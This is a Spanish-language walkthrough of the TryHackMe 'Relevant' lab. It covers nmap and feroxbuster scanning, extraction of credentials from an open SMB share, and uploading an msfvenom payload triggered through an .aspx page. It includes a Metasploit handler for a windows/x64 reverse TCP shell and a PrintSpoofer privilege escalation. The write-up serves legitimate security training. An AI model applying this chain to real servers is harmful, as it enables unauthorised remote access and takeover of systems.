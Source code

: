 # THM - Relevant
[TryHackMe-Relevant](https://tryhackme.com/room/relevant)

Para comenzar el análisis se realiza un **nmap** a la ip de la máquina.

![Nmap](/img/relevant1.png)

![Nmap2](/img/relevant2.png)

Al acceder a la web no hay nada interesante.

![web](/img/relevant3.png)

Con la herramienta *feroxbuster* se va a intentar descubrir los directorios ocultos, pero una vez terminado el análisis con esta herramienta no hay ningún directorio interesante.

![feroxbuster](/img/relevant4.png)

Como hemos visto en el escáner con *nmap* puede haber una vulnerabilidad en Samba así que vamos a intentar acceder.

![samba](/img/relevant5.png)

Accedemos al servidor Samba de *nt4wrksv*. Extraemos el archivo *password.txt*.

![samba2](/img/relevant6.png)

Al ver el contenido del archivo pueden verse 2 usuarios y contraseñas cifradas.

![password.txt](/img/relevant7.png)

Usuario Bob.

![bob](/img/relevant8.png)

Usuario Bill.

![bill](/img/relevant9.png)

Creamos un payload con la herramienta *msfvenom*.

![msfvenom](/img/relevant10.png)

A través del servidor Samba subimos el payload creado.

![payload](/img/relevant11.png)

A continuación vamos a acceder a Metasploit con el comando *msfconsole*. Ejecutaremos los siguientes comandos:

```
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost (ip vpn)
set lport (puerto elegido)
run
```

De esta forma se activará el puerto en escucha. Desde el navegador deberemos buscar lo siguiente: *ip:49663/nt4wrksv/relevant.aspx*. De esta forma, en el puerto en escucha se habrá abierto la shell reversa.

![shell](/img/relevant12.png)

Al navegar por las carpetas puede encontrarse el archivo *user.txt*.

![user.txt](/img/relevant13.png)

*Try Hack Me*  
![THM](/img/relevant14.png)

Como no tenemos acceso a la carpeta del administrador, vamos a utilizar el archivo *PrintSpoofer.exe* para acceder con permisos.

![printspoofer](/img/relevant15.png)

Deberemos subir el archivo al servidor Samba como hicimos anteriormente. Una vez subido, desde la shell reversa buscamos el archivo y lo ejecutamos de la siguiente manera:

![printspoofer2](/img/relevant16.png)

De esta forma ya tendremos permisos para acceder a la carpeta y conseguir el archivo *root.txt*.

![root.txt](/img/relevant17.png)

*Try Hack Me*  
![THM2](/img/relevant18.png)

